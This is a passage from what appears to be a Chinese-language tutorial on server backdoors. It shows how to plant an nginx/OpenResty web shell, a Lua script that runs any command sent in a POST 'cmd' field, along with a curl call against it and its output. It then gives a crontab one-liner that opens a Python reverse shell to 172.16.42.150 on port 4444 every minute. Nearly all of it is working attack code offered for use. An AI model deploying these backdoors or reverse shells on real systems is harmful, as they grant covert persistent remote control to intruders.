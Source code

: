 参考：https://github.com/netxfly/nginx_lua_security

安装openresty参加官网

**部署后门**

```
[root@vuln ~]# cd /usr/local/openresty/nginx/conf
[root@vuln conf]#
```

在nginx.conf文件的server块中加入如下内容

```
location = /shadowtest {  
    default_type 'text/plain';  
    content_by_lua_file /usr/local/openresty/nginx/conflua/shadowcmd.lua;
}
```

lua脚本

```
[root@vuln conf]# vim /usr/local/openresty/nginx/conf/shadowcmd.lua
```

```
ngx.req.read_body()
local post_args = ngx.req.get_post_args()
local cmd = post_args["cmd"]
if cmd then
    f_ret = io.popen(cmd)
    local ret = f_ret:read("*a")
    ngx.say(string.format("%s", ret))
end
```

启动openresty

```
[root@vuln conf]# /usr/local/openresty/nginx/sbin/nginx  -c /usr/local/openresty/nginx/conf/nginx.conf
```

攻击

```
[shadowflow@ShadowOS ~]% curl 'http://172.16.42.151/shadowtest' -d 'cmd=id'
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```



## 4. 计划任务后门

**crontab反弹python shell**

```
(crontab -l;printf "* * * * *  /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"172.16.42.150\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n")|crontab -
```
